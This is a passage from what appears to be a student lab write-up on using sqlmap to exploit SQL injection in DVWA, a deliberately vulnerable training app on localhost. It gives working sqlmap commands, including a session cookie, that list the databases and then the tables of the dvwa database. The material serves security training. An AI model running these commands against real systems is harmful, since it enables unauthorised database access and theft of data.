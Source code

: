 ## 3. Use sqlmap to get information about all available databases:
-First, we determine the URL that we need to conduct attack: 
```sh
access DVWA ->Vulnerability: SQL Injection
copy URL: http://localhost/vulnerabilities/sqli/?id=3&Submit=Submit#
``` 
-Second, we run SQL map to find all database:
```sh
sqlmap -u "http://localhost/vulnerabilities/sqli/?id=3&Submit=Submit#" --dbs --cookie="PHPSESSID=r206ch272ukcgtfpi24s2vlnk6; security=low"
``` 
-Output screenshot:
<img width="500" alt="Screenshot" src="./img/get_infos.png"><br>

**Question 2**: Use sqlmap to get tables, users information
**Answer 2**:
## 1. List all table in database:
-We must determine the database that we want to access then list all table:
```sh
sqlmap -u "http://localhost/vulnerabilities/sqli/?id=3&Submit=Submit#" --cookie="PHPSESSID=r206ch272ukcgtfpi24s2vlnk6; security=low" -D dvwa --tables
``` 
-Output screenshot:
<img width="500" alt="Screenshot" src="./img/get_table.png"><br>
